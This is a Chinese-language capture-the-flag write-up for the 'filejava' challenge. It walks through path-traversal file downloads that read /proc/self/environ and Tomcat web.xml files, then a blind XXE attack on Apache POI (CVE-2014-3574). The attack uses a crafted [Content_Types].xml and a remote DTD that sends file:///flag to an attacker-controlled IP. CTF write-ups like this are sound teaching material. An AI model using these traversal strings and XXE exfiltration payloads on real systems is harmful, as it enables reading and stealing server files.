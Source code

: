 # \[网鼎杯 2020 青龙组]filejava

## \[网鼎杯 2020 青龙组]filejava

## 考点

* 任意文件下载
* Java代码审计
* blind xxe
* CVE-2014-3574

## wp

文件上传功能，上传之后有个文件下载功能

![](<../.gitbook/assets/image (24) (1) (1) (1).png>)

![](<../.gitbook/assets/image (12) (1).png>)

有文件下载，尝试下载`/proc/self/cmdline`，多次测试发现下载链接是`../../../../../../../../../proc/self/cmdline`

![](<../.gitbook/assets/image (26) (1).png>)

再读取`../../../../../../../../../proc/self/environ`

![](<../.gitbook/assets/image (34) (1) (1).png>)

可以发现Tomcat的目录是`/usr/local/tomcat/`，可以读取Tomcat的`web.xml`，`../../../../../../../../../usr/local/tomcat/conf/web.xml`，它定义了系统的Servlet规范

然后读取web应用程序的web.xml，`../../../../../../../../../usr/local/tomcat/webapps/ROOT/WEB-INF/web.xml`，其中定义了web程序的Servlet规范

{% code title="WEB-INF/web.xml" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">
    <servlet>
        <servlet-name>DownloadServlet</servlet-name>
        <servlet-class>cn.abc.servlet.DownloadServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>DownloadServlet</servlet-name>
        <url-pattern>/DownloadServlet</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>ListFileServlet</servlet-name>
        <servlet-class>cn.abc.servlet.ListFileServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>ListFileServlet</servlet-name>
        <url-pattern>/ListFileServlet</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>UploadServlet</servlet-name>
        <servlet-class>cn.abc.servlet.UploadServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>UploadServlet</servlet-name>
        <url-pattern>/UploadServlet</url-pattern>
    </servlet-mapping>
</web-app>
```
{% endcode %}

依次下载源码，用jd-gui反编译得到源码

ListFileServlet是获取/WEB-INF/upload目录下的文件

DownloadServlet是下载filename传入的文件，它不能是空且不包含flag字符串，然后返回文件内容

{% code title="UploadServlet" %}
```java
......
        if (filename.startsWith("excel-") && "xlsx".equals(fileExtName))
          try {
            Workbook wb1 = WorkbookFactory.create(in);
            Sheet sheet = wb1.getSheetAt(0);
            System.out.println(sheet.getFirstRowNum());
          } catch (InvalidFormatException e) {
            System.err.println("poi-ooxml-3.10 has something wrong");
            e.printStackTrace();
          }  
......
```
{% endcode %}

代码中对上传文件做了判断，如果文件名以`excel-`开头，且以`xlsx`作为后缀，就使用`org.apache.poi.ss.usermodel.WorkbookFactory`类进行操作，这里是有个cve，即CVE-2014-3574。

新建`excel-test.xlsx`文件，然后解压

![](<../.gitbook/assets/image (37) (1).png>)

修改`[Content_Types].xml`为如下内容

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://81.68.218.54:20010/file.dtd">
%remote;%int;%send;
]>
<Types xmlns="http://schemas.openxmlformats.org/package/2006/content-types"><Default Extension="bin" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.printerSettings"/><Default Extension="rels" ContentType="application/vnd.openxmlformats-package.relationships+xml"/><Default Extension="xml" ContentType="application/xml"/><Override PartName="/xl/workbook.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.sheet.main+xml"/><Override PartName="/xl/worksheets/sheet1.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.worksheet+xml"/><Override PartName="/xl/worksheets/sheet2.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.worksheet+xml"/><Override PartName="/xl/worksheets/sheet3.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.worksheet+xml"/><Override PartName="/xl/theme/theme1.xml" ContentType="application/vnd.openxmlformats-officedocument.theme+xml"/><Override PartName="/xl/styles.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.styles+xml"/><Override PartName="/docProps/core.xml" ContentType="application/vnd.openxmlformats-package.core-properties+xml"/><Override PartName="/docProps/app.xml" ContentType="application/vnd.openxmlformats-officedocument.extended-properties+xml"/></Types>
```

vps上的dtd文件如下，再监听端口

```xml
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://81.68.218.54:20011?p=%file;'>">
```

然后重新打包为xlsx文件，这里就直接右键->7z打开压缩包，再右键编辑

![](<../.gitbook/assets/image (21) (1).png>)

保存直接上传即可

![](<../.gitbook/assets/image (36).png>)

## 小结

1. blind XXE
2. Tomcat目录结构
